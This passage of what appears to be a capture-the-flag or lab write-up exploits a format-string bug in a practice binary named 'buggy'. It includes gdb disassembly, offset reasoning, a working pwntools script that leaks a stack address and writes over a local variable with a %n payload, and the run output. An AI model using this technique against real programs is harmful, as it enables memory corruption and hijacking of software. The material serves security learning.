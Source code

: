 ```sh

  -------ToDo-------
```

So, we have an address of the *name* variable. From **gdb** we know the address
of *decision* variable. 

```
 ...
0x00000000000007e7 <+82>:  lea    rax,[rbp-0x610]  #name
0x00000000000007ee <+89>:  mov    rsi,rax
0x00000000000007f1 <+92>:  lea    rdi,[rip+0x18a]
0x00000000000007f8 <+99>:  mov    eax,0x0
0x00000000000007fd <+104>: call   0x640 <__isoc99_scanf@plt>
 ...
0x0000000000000873 <+222>: cmp    DWORD PTR [rbp-0x614],0x0
```

*decision* is 4 bytes above *name*. Exploit should extract *name* buffer
address subtract 4 bytes and make payload. Worth to remember, our address has 6
bytes.  It means that 2 higher bytes are the 00s. If we start our payload with
it, it would be a very short payload. So let's place it at the end:
```AAAAAAAA-%138$n<address>```. First 8 bytes as we know are at the 136th
place. So ```-%138$n``` will be the 137th and out address 138th - this is why
in the payload we have this value before ```n```.

So exploit which overwrites *decision* variable looks like this:
```python
from binascii import hexlify
from pwn import *

p = process('./buggy')
#gdb.attach(p)
print(p.readline())
name = 512*'A'+'__%p__'
p.sendline(name)
line = p.readline()
print(line)
address = line.split(b'__')[1]
print(f"address: {address}")
addr = int(address, 16)
addr -= 4
print(f"address of boolean: {hex(addr)}")
payload = b'AAAAAAAA-%138$n-' + p64(addr)
p.sendline(payload)
print(p.recv())
```

```sh
$ python3 buggy_exploit.py
[+] Starting program './buggy': Done
b'Give me your name:\n'
b'__0x7ffc26994b00__Now tell me what to do:\n'
address: b'0x7ffc26994b00'
address of boolean: 0x7ffc26994afc
b'OK! I am on it.\n  -------ToDo-------\nAAAAAAAA--\xfcJ\x99&\xfc\x7f\n  -------ToDo-------\n==============WIN===============\n         OK, you win!\n==============WIN===============\n'
[*] Program './buggy' stopped with exit code 0
```
